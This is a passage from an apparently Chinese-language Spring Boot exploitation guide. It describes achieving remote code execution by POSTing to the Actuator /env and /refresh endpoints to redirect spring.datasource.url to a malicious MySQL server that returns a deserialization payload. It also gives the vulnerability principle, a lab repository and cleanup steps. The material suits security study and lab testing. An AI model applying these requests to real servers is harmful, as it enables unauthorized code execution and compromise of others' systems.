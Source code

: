 spring 2.x

```http
POST /actuator/env HTTP/1.1
Content-Type: application/json

{"name":"spring.datasource.url","value":"对应属性值"}
```

##### 步骤四：刷新配置

spring 1.x

```http
POST /refresh HTTP/1.1
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```http
POST /actuator/refresh HTTP/1.1
Content-Type: application/json

```

##### 步骤五：触发数据库查询

尝试访问网站已知的数据库查询的接口，例如： `/product/list` ，或者寻找其他方式，主动触发源网站进行数据库查询，然后漏洞会被触发

##### 步骤六：恢复正常 jdbc url

反序列化漏洞利用完成后，使用 **步骤三** 的方法恢复 **步骤一** 中记录的 `spring.datasource.url` 的原始 `value` 值

#### 漏洞原理

1. spring.datasource.url 属性被设置为外部恶意 mysql jdbc url 地址
2. refresh 刷新后设置了一个新的 spring.datasource.url 属性值
3. 当网站进行数据库查询等操作时，会尝试使用恶意 mysql jdbc url 建立新的数据库连接
4. 然后恶意 mysql server 就会在建立连接的合适阶段返回反序列化 payload 数据
5. 目标依赖的 mysql-connector-java 就会反序列化设置好的 gadget，造成 RCE 漏洞

#### 漏洞分析

​ [New-Exploit-Technique-In-Java-Deserialization-Attack](https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf)

#### 漏洞环境

> 需要配置 application.properties 中的 spring.datasource.url、spring.datasource.username、spring.datasource.password，保证可以正常连上 mysql 数据库，否则程序启动时就会报错退出

[repository/springboot-mysql-jdbc-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-mysql-jdbc-rce)

正常访问：

```url
http://127.0.0.1:9097/actuator/env
```
